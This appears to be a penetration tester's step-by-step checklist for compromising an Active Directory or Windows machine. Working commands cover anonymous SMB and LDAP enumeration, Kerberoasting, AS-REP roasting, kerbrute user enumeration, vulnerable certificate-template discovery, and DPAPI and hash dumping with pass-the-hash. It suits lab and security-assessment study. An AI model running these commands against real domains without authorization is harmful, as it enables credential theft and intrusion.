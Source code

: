 # Step-by-Step AD/Windows Machine

## Initial Access

### Without Credential

* Enum4Linux&#x20;

```bash
enum4linux-ng IP
```

* SMB anonymous login

```bash
smbclient -L //10.10.178.64 -N
smbclient -N //10.10.178.64/Data
```

* LDAP anonymous informations

{% code overflow="wrap" %}
```
# query for Name and Description (sometimes we can find passowrds)
ldapsearch -x -H ldap://<TARGET_IP> -b "dc=example,dc=com" "(objectClass=user)" cn description
```
{% endcode %}

{% content-ref url="active-directory-pt/ad-enumeration/ldap.md" %}
[ldap.md](active-directory-pt/ad-enumeration/ldap.md)
{% endcontent-ref %}

* Web Page&#x20;

#### Anonymous allowing

* Enum AD with Kerbrute

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/kerbrute.md" %}
[kerbrute.md](active-directory-pt/ad-initial-attack-vectors/kerbrute.md)
{% endcontent-ref %}

* Try get Kerberostable users

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -request -dc-ip $DC_IP $DOMAIN.local/ -outputfile hashes.kerberoast
```
{% endcode %}

{% content-ref url="active-directory-pt/ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](active-directory-pt/ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

* Try to get ASREP Roastable users

```bash
impacket-GetNPUUsers.py $DOMAIN/ -dc-ip $DC_IP 
```

{% content-ref url="active-directory-pt/ad-post-compromise-attacks/as-rep-roasting.md" %}
[as-rep-roasting.md](active-directory-pt/ad-post-compromise-attacks/as-rep-roasting.md)
{% endcontent-ref %}



If all of these techniques doens't work we have to try to catch some NTLM hash credentials or some like this.

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/" %}
[ad-initial-attack-vectors](active-directory-pt/ad-initial-attack-vectors/)
{% endcontent-ref %}



### With Credentials

Enumeration:

* Enum4Linux&#x20;

```bash
enum4linux-ng -u USER -p PASS IP
```

* SMB Shares
* Bloodhound ( or Find **Kerberostable**, **AS-Roastable** accounts)
  * Check the information from "Node Info" of initial user.
* AD CS vuln template

```bash
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```

* Impacket-secretsdump
  * Pass-the-Hash / Pass-the-Password
* WinRM connection
  * evil-winrm
  * Create persistence shell&#x20;

{% content-ref url="executive-pt/post-exploitation/payload-development.md" %}
[payload-development.md](executive-pt/post-exploitation/payload-development.md)
{% endcontent-ref %}

* FTP connection
* SSH connection



## AD Enum

#### Kerberos User enumeration

* Verify users exist in the domain

```bash
./kerbrute_linux_amd64 userenum users.txt --domain DOMAIN.local --dc <IP>
```

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/kerbrute.md" %}
[kerbrute.md](active-directory-pt/ad-initial-attack-vectors/kerbrute.md)
{% endcontent-ref %}





## PrivEsc:

* Local Enumeration ( Get all possible informations)

{% content-ref url="executive-pt/post-exploitation/windows-post-exploitation/windows-privilege-escalation/windows-local-enumeration.md" %}
[windows-local-enumeration.md](executive-pt/post-exploitation/windows-post-exploitation/windows-privilege-escalation/windows-local-enumeration.md)
{% endcontent-ref %}

* WinPeas
* Privs (whoami /priv)
  * Access Token Impersonation
* Check All AD user (deleted, disable, active)
* Mimikatz&#x20;
* Certipy (more if there is a CA\_SVC user)



## As Admin

### Dump

* impacket-secretsdump
* Mimikatz
* DPAPI with NetExec

```bash
# with Pass-the-Hash
nxc smb DOMAIN -u administrator -H 'REDACTED' --dpapi
```

When we have a hash we can:

* Do Pass-The-Hash
* Use `Hash-Identify` to get the type and crack it



## Crack Hash

* Hashcat & John

